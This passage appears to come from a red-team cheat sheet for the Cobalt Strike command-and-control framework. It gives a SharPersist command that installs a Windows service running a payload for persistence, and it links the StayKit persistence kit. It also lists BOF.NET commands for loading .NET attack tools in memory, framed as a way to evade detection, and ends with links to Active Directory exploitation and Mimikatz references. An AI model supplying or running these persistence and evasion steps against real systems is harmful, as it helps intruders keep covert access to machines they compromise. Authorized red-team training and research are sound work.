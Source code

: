 # Windows service persistence
execute-assembly C:\SharPersist.exe -t service -c "C:\Windows\System32\cmd.exe" -a "/c payload.exe" -n "Test Service" -m add
```

[StayKit](https://github.com/0xthirteen/StayKit) - Cobalt Strike persistence kit aggressor script

------------------------------------------------------------------------------------------
# Cobalt Strike BOFs
[BOF_Collections.md page (above)](https://github.com/wsummerhill/C2_RedTeam_CheatSheets/blob/main/CobaltStrike/BOF_Collections.md)

### [BOF.NET](https://github.com/CCob/BOF.NET/pull/1)
A .NET runtime tool to load assemblies in memory and avoid the typical fork-and-run model from `execute-assembly`. Use BOF.NET to run any .NET tool for better evasion by residing in your current process. Note that this will not bypass AMSI or ETW as those will have to be unhooked separately, if needed.
```
bofnet_init
bofnet_load /path/to/assembly.exe
bofnet_listassemblies
bofnet_executeassembly AssemblyName argument1 argument2 
```

------------------------------------------------------------------------------------------
# References
[Cobalt Strike official blog](https://www.cobaltstrike.com/blog)

[Cobalt Strike commands cheat sheet](https://github.com/S1ckB0y1337/Cobalt-Strike-CheatSheet) 

[AD exploitation cheat sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet) 

[Sharphound](https://github.com/BloodHoundAD/SharpHound3) 

[PowerShell remoting cheat sheet](https://blog.netspi.com/powershell-remoting-cheatsheet/) 

[Mimikatz reference cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md) 

[SpectreOps Cobalt Strike command reference](https://xzfile.aliyuncs.com/upload/affix/20190126174144-9767f9f2-214e-1.pdf) 
